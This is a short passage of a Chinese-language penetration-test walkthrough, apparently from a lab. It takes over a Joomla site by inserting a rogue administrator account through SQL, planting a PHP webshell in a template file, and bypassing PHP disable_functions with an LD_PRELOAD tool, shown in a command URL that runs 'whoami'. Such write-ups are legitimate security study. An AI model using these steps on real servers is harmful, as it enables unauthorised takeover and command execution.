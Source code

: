 ```
到数据库查看管理员账户密码尝试登录，失败 密码解密不出来

尝试重置管理员账户密码

官方文档：https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn

```

##### 重置管理员密码

```
根据官方文档做出调整，否则无法修改

调整为：

INSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');

新管理员账户admin2 密码解密后 secret

```

##### 文件上传getshell

```
在Extensions -&amp;gt; Templates -&amp;gt; Templates可以编辑模板文件

```

```
小马的位置在templates/beez3目录下，可以自己搭建cms了解一下

注意，这里有细节！！小马的名字要是nf.php

```

##### 连接蚁剑

```
命令执行不了，但文件管理处任然可以操作

看来是disable_functions的限制了，在之前的dirsearch扫描时看到了phpinfo的信息

```

```
果然是使用了disable_functions

我们利用 LD_PRELOAD 环境变量绕过

github下载地址https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

把bypass_diablefunc.php和bypass_diablefunc_x64.so一起上传到一个目录下

访问http://192.168.3.23/templates/beez3/bypass_diablefunc.php?cmd=whoami&amp;amp;outpath=/tmp/baji&amp;amp;sopath=/var/www/html/templates/beez3/bypass_disablefunc_x64.so

在cmd传参后执行系统命令

```
